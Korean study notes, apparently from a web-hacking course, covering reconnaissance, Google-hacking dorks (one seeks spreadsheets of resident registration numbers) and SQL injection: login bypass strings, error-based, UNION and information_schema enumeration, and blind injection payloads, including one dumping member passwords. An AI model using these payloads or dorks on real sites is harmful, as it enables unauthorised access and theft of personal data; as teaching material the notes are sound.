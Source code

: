 ### 쿠키

* 웹 해킹 절차 : 공격대상 선정 -> 정보수집 -> 취약점 분석 -> 공격 -> 보고서
* 정보수집
  * 포트 스캔
  * 사이트 정보 수집
    * ip 확인 nslookup 도메인 이름
    * 사이트 구조 (웹서핑)
    * whois
    * netcraft.com
    * archive.org
    * 크롤링
    * 소스보기, 개발자 도구
    * 검색엔진 정보수집

* 디렉터리 리스팅 취약점 : 서버 설정 미흡

* 구글 해킹 

  구글 검색을 통해 검색되는 중요 정보들이 존재함. 보안 미흡.

  * intitle:index.of 영화
  * filetype:xlsx 주민등록번호
  * inurl:admin/member_list.jsp
  * inurl:dbconn.inc
  * https://www.exploit-db.com
  * shodan.io



* 구글해킹 대책 : 구글 사이트에 신고할 것.
  * robots.txt : 검색되지 않게하는 설정파일을 작성함. 설정파일을 무시하고 검색되게 만드는 사이트도 있음.
  * /robot_flag/
  * http://ctf.j0n9hyun.xyz:2020/



### 모의해킹 

체크리스트 기반의 취약점을 진단해본다. 전세계에서 유명한 취약점 리스트를 알아야 함.

* 국내에서 자주 사용하는 취약점 리스트
  * 국정원 8대 취약점
  * 과기부, 행안부, kisa -> 각종 취약점, 보안 관련 가이드 문서. 주요기반시설취약점 진단 가이드



### SQL 인젝션

웹 어플리케이션이 데이터베이스에 날리는 SQL을 개발자가 의도하지 않은 형태로 조작하여 공격하는 기법이다.

* Form SQL Injection (bypass SQL Injection) 로그인 SQL 인젝션

  ```
  Form SQL Injection (bypass SQL Injection)
  
  select * from member where id='사용자입력id' and pwd='사용자입력pwd'
  -> 일반적인 로그인 과정에서 SQL 쿼리문
  
  id : ' or 1=1--
  
  -- : MSSQL, ORALCD에서 사용되는 주석처리
  # : MYSQL에서 사용되는 주석처리
  ```

  ```
  select * from member where id='' or 1=1--
  -> 첫번째 조회되는 사용자의 계정으로 로그인됨.
  
  ' or ''='
  ' or '1'='1'
  ' or '1'='1
  
  ' or '2'='2
  ' or 2>1
  ' or 1=1--
  
  반복적으로 숫자를 바꿔서 시도해보며 해킹시도.
  ```

  * http://coashanee5.blogspot.com/2017/02/sql.html

  

  ```
  select * from member where (id='아이디' and pwd='패스워드');
  -> ' or 1=1)--
  
  특정 사용자로 로그인 시도
  attacker'--
  ```





* Error based SQL injection

  응답 에러메세지를 통해 정보를 획득하여 공격하는 SQL 인젝션 공격기법

  게시판 검색창을 통해 해킹.

  ```
  ' and db_name()=0-- 
  -> db 이름 알아내기
  
  ' and @@version=0-- 
  -> dbms 버전 정보 알아내기
  
  ' and @@serviocename=0-- 
  -> dbms 서비스 이름 알아내기
  ```

  * having

    ```
    ' having 1=1--
    -> 에러 발생하며 DB 테이블명이 chapter1 컬럼명은 idx 라는 정보를 알아냄
    ```

  * group by

    ```
    ' group by chapter1.idx--
    -> 정보 획득 chapter1.level_idx 
    
    ' group by chapter1.idx, chapter1.level_idx--
    -> 정보 획득 'chapter1.ref_idx' 
    
    ' group by chapter1.idx, chapter1.level_idx, chapter1.ref_idx--
    -> 정보 획득 'chapter1.title' 
    
    chapter1.idx   chapter1.level_idx   chapter1.ref_idx  chapter1.title
    
    ' group by chapter1.idx, chapter1.level_idx, chapter1.ref_idx, chapter1.title, chapter1.name, chapter1.wtday, chapter1.hitcnt--
    
    ```

    ```
    로그인창에서도 똑같이 에러정보를 통해 컬럼명을 획득할 수 있다.
    
    'group by member.m_idx,member.m_id,member.m_name --
    ```



### Union SQL Injection의 조건

Union으로 연결할 양쪽의 컬럼의 수가 같아야 한다. 같은 위치의 컬럼의 타입이 다를 경우 에러가 발생할 수 있다. 컬럼의 이름이 정확해야 한다.

```
' union select NULL,NULL,NULL,NULL,NULL,NULL,NULL from member--

' union select 1,1,1,1,1,1,1 from member--


' union select 1,1,1,m_id,m_name,NULL,NULL from member--

-> union select를 사용하여 member 테이블의 데이터를 게시판 항목으로 출력

' union select 1,1,1,m_id,m_name,NULL,NULL from member where m_id > 'b'--
```





### information_schema를 사용한 DB 정보 획득 SQL 인젝션

* MYSQL, MSSQL의 경우 information_schema 데이터 베이스에 전체 DB의 정보가 저장됨.
* information_schema.columns 테이블을 조회할 경우, 전체 DB의 테이블명, 컬럼명을 조회할 수 있음. (table_name, column_name)
* Union SQL Injection 으로 information_schema.columns의 항목을 포함시켜 DB 정보 획득 공격을 진행해보도록 한다.

```
' union select 1,1,1,table_name,column_name,NULL,NULL from information_schema.columns--
-> 테이블 명, 컬럼 명 조회

' union select 1,1,1,table_name,NULL,NULL,NULL from information_schema.columns--
-> 테이블 명만 조회
-> member 테이블 존재 확인

' union select 1,1,1,column_name,NULL,NULL,NULL from information_schema.columns where table_name='member'--
-> 멤버테이블의 컬럼명을 확인
-> 테이블명, 컬럼명이 확인이 되고 해당 정보를 바탕으로 union select를 사용하여 멤버 정보를 출력할 수 있다.

' union select 1,1,1,m_id,m_pwd,NULL,NULL from member--
```



### Blind SQL Injection

쿼리 결과(참, 거짓) 에 따라 정보를 획득하여 공격하는 기법

```
attacker' and 1=1-- 참구문
attacker' and 1=2-- 거짓구문
-> and 뒤의 조건이 참이나 거짓일 경우 결과가 다르게 나타남을 활용한다.
```

* Blind SQL Injection을 이용하여 db 이름 알아내기 실습

  ```
  substring('abcdef', 1,2);
  => abcdef 중 ab 반환 1번째부터 시작해서 2개 길이 반환
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),1,1)) >= ASCII('a')--
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),1,1)) >= ASCII('g')--
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),1,1)) >= ASCII('m')--
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),1,1)) >= ASCII('l')--
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),2,1)) >= ASCII('e')--
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),3,1)) >= ASCII('e')--
  
  ```

  * db이름 : le

    문제점 : -> 노가다가 너무 심하고 시간이 너무 오래걸린다.
    해결책: 자동화된 공격 툴로 공격을 수행한다.